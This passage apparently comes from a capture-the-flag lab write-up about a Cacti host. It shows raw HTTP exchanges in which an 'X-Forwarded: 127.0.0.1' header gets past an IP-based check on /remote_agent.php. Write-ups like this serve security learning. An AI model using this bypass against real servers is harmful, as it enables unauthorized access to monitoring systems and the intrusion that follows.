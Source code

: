 ```bash
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 06 Aug 2023 13:07:25 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.4.33
Last-Modified: Sun, 06 Aug 2023 13:07:19 GMT
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: default-src *; img-src 'self'  data: blob:; style-src 'self' 'unsafe-inline' ; script-src 'self'  'unsafe-inline' ; frame-ancestors 'self'; worker-src 'self' ;
P3P: CP="CAO PSA OUR"
Cache-Control: no-store, no-cache, must-revalidate
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Content-Length: 49

FATAL: You are not authorized to use this service
```

When we tried to access `/remote_agent.php`, we encountered an error message saying `FATAL: You are not authorized to use this service`.

It appears that this error is related to a filter based on `IP` addresses.

However, we managed to bypass this filter quite easily. By adding a special HTTP header called `X-Forwarded`, we tricked the system into thinking that the request was coming from an authorized client, in this case, `127.0.0.1`.

```bash
GET /remote_agent.php HTTP/1.1
Host: 10.10.11.211
X-Forwarded: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: Cacti=f755b3fc5f85ec444345b298ec66e223; CactiDateTime=Sun Aug 06 2023 08:52:48 GMT-0400 (Eastern Daylight Time); CactiTimeZone=-240
Upgrade-Insecure-Requests: 1

```

```bash
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 06 Aug 2023 13:11:59 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.4.33
Last-Modified: Sun, 06 Aug 2023 13:11:58 GMT
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: default-src *; img-src 'self'  data: blob:; style-src 'self' 'unsafe-inline' ; script-src 'self'  'unsafe-inline' ; frame-ancestors 'self'; worker-src 'self' ;
P3P: CP="CAO PSA OUR"
Cache-Control: no-store, no-cache, must-revalidate
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Content-Length: 21

Unknown Agent Request
```
